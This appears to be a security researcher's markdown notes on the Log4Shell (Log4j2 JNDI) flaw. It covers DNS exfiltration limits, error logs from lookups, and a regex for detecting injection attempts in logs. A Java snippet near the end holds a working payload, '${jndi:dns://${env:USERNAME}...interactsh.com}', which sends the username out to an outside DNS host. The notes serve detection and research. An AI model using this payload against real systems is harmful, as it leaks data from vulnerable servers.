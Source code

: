 ![be7dfc5206b50cb905251071df33c5d4.png](../_resources/be7dfc5206b50cb905251071df33c5d4.png)

![c356976510c54f5452b8c4be28361e44.png](../_resources/c356976510c54f5452b8c4be28361e44.png)

So based on this to be exfiltrated via DNS, a data must have the format `[0-9A-Za-z\-_]*` because (at least I have not found) there is no easy way to encode/cut/split the data to bypass this constraint.

Theoretical way to bypass the constraints above (**POC** required):

![7f28be35d6aa4538a70b5461f74d3520.png](../_resources/7f28be35d6aa4538a70b5461f74d3520.png)

![4a7aba5e6f83ee9ada7b7717846717e8.png](../_resources/4a7aba5e6f83ee9ada7b7717846717e8.png)

Source: https://twitter.com/0x6772/status/1471204834879672322

The following exception is raised when a DNS resolution failed, for example, if a not allowed character is used in sub domain name:

```text
2021-12-14 07:58:14,165 main WARN Error looking up JNDI resource [dns://ab'456.c6s40maa89k6h46f3ar0cghrysoyyyyyn.interactsh.com]. javax.naming.ConfigurationException: Unknown DNS server: ab'456.c6s40maa89k6h46f3ar0cghrysoyyyyyn.interactsh.com [Root exception is java.net.UnknownHostException: No such host is known (ab'456.c6s40maa89k6h46f3ar0cghrysoyyyyyn.interactsh.com)]; remaining name '.'
	at jdk.naming.dns/com.sun.jndi.dns.DnsClient.<init>(DnsClient.java:130)
	at jdk.naming.dns/com.sun.jndi.dns.Resolver.<init>(Resolver.java:61)
	at jdk.naming.dns/com.sun.jndi.dns.DnsContext.getResolver(DnsContext.jav
...
```

When the resolution succeed then the following exception can occur:

```
2021-12-14 07:57:58,989 main WARN Error looking up JNDI resource [dns://ab-456.c6s40maa89k6h46f3ar0cghrysoyyyyyn.interactsh.com]. javax.naming.CommunicationException: DNS error [Root exception is java.net.SocketTimeoutException: Receive timed out]; remaining name '.'
	at jdk.naming.dns/com.sun.jndi.dns.DnsClient.query(DnsClient.java:316)
	at jdk.naming.dns/com.sun.jndi.dns.Resolver.query(Resolver.java:81)
	at jdk.naming.dns/com.sun.jndi.dns.DnsContext.c_lookup(DnsContext.java:290)
	at java.naming/com.sun.jndi.toolkit.ctx.ComponentContext.p_lookup(ComponentContext.java:542)
	at java.naming/com.sun.jndi.toolkit.ctx.PartialCompositeContext.lookup(PartialCompositeContext.java:177)
	at java.naming/com.sun.jndi.toolkit.url.GenericURLContext.lookup(Generic
```


So, the following regex can be use to identify injection tentative (failed and some succeed) - [Live Example](https://regexr.com/6bgak):

```text
(Error\slooking\sup\sJNDI\sresource\s\[.*?\])
```

Code for the DNS test - [InteractSH](https://github.com/projectdiscovery/interactsh) Github repository:

```java
Logger log = LogManager.getLogger(Sandbox2.class);
System.out.printf("LOG4J2 version: %s\n", log.getClass().getPackage().getImplementationVersion());
System.out.printf("Java version  : %s\n", System.getProperty("java.version"));
//On linux use ${env:USER}
log.info("${jndi:dns://${env:USERNAME}.xxxxx.interactsh.com}");
```
